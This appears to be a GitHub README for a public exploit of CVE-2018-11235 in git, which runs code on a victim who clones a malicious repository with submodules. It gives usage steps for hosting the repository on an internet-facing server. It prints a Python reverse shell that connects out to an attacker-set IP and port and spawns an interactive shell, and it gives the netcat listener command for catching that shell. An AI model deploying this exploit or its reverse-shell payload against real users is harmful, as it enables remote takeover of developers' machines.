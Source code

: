 Headers
=========

Exploit Title: Clone and Pwn<br />
Date: June 4th, 2018<br />
Exploit Author: Alejandro Caceres<br />
Vendor Homepage: https://git-scm.com/<br />
Software Link: https://git-scm.com/downloads<br />
Version: arbitrary code is executed on git client versions In Git before 2.13.7, 2.14.x before 2.14.4, 2.15.x before 2.15.2, 2.16.x before 2.16.4, and 2.17.x before 2.17.1<br />
Tested on: Linux: Ubuntu, Mint, MacOSX<br />
CVE : CVE-2018-11235<br />


Exploit for CVE-2018-11235 Usage
==============================

CVE-2018-11235, dubbed clone and pwn here, creates a malicious git repo that exploits a bug in git. When the repo is cloned using the
--recurse-submodules flag, arbitrary code is executed on git client versions In Git before 2.13.7, 2.14.x before 2.14.4, 2.15.x before
2.15.2, 2.16.x before 2.16.4, and 2.17.x before 2.17.1.

To use this module simply put it on a server with direct internet access (e.g. AWS, digital ocean) and pop open `evil.sh`. It will look
something like the following:

```
#!/usr/bin/python

EXTERN_IP="127.0.0.1"
EXTERN_PORT=8080

#reverse shell to IP EXTERN_IP and port EXTERN_PORT
import socket, subprocess, os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((EXTERN_IP, EXTERN_PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Set EXTERN_IP and EXTERN_PORT to the IP (external) and port you'd like to receive your reverse shell on. A reverse shell can be received with something like:

`nc -l <EXTERN_IP> EXTERN_PORT` e.g. `nc -l 193.23.23.32 8080`

Or with Metasploit's generic shell module. Once the user has run the command `git clone --recurse-submodules git://<your ip>/repo dest_dir` you will receive a reverse shell.

If you're having trouble running multiple times (or after a failed attempt) check the following:

- Run ./clean.sh, note this will delete all data in /tmp
- check the processes with `ps aux | grep git` to ensure you aren't already running gitdaemon. Kill any gitdaemon processes.

Acknowledgements
----------------

Code derived from [@peff](https://github.com/peff)'s [git patch][] (look for
the `t/t7415-submodule-names.sh` test file).

As such, this repository is published under the GNU General Public License
version 2.

Additional fix for older versions of git courtesy of
[@atorralba](https://github.com/atorralba)
([details in this post](https://atorralba.github.io/CVE-2018-11235/)).

[git patch]: https://github.com/git/git/commit/0383bbb9015898cbc79abd7b64316484d7713b44

This script adapted from https://github.com/Rogdham/CVE-2018-11235, much love and credit

=======
# clone_and_pwn
Exploits CVE-2018-11235

By @_hyp3ri0n and @mehaase
